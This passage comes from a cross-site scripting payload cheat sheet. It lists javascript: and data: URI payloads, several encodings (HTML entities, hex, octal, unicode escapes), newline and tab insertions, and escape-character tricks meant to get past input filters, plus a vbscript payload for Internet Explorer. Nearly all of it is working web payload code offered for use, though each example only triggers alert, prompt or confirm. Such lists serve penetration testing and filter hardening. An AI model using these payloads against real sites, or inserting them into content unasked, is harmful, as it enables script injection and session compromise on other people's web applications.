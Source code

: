 ```javascript
-(confirm)(document.domain)//
; alert(1);//
// (payload without quote/double quote from [@brutelogic](https://twitter.com/brutelogic)
```

## XSS in wrappers javascript and data URI

XSS with javascript:

```javascript
javascript:prompt(1)

%26%23106%26%2397%26%23118%26%2397%26%23115%26%2399%26%23114%26%23105%26%23112%26%23116%26%2358%26%2399%26%23111%26%23110%26%23102%26%23105%26%23114%26%23109%26%2340%26%2349%26%2341

&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#99&#111&#110&#102&#105&#114&#109&#40&#49&#41

We can encode the "javascript:" in Hex/Octal
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
\152\141\166\141\163\143\162\151\160\164\072alert(1)

We can use a 'newline character'
java%0ascript:alert(1)   - LF (\n)
java%09script:alert(1)   - Horizontal tab (\t)
java%0dscript:alert(1)   - CR (\r)

Using the escape character
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)

Using the newline and a comment //
javascript://%0Aalert(1)
javascript://anything%0D%0A%0D%0Awindow.alert(1)
```

XSS with data:

```javascript
data:text/html,<script>alert(0)</script>
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

XSS with vbscript: only IE

```javascript
vbscript:msgbox("XSS")
```

## XSS in files

** NOTE:** The XML CDATA section is used here so that the JavaScript payload will not be treated as XML markup.
